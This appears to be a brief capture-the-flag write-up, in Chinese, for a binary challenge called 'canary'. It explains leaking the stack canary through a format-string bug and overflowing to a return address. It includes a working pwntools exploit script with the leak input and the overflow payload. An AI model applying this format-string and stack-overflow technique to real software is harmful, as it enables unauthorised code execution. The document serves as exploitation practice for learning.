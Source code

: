canary

利用格式化字符串泄露出canary

然后进行栈溢出到返回地址即可

```
from pwn import *
from time import *

p=process("./canary")
# p=remote("127.0.0.1",1000)
context(log_level='debug', os='linux', arch='amd64')
flag=0x06016C0
p.sendlineafter("it",b'%11$p')
p.recvuntil("gift:")
stack=int(p.recv(18),16)
payload=b'a'*0x28+p64(stack)+b'a'*8+p64(0x4006F7)
p.sendlineafter("attack",payload)
p.interactive()
```

![1733300555890](assets/1733300555890.png)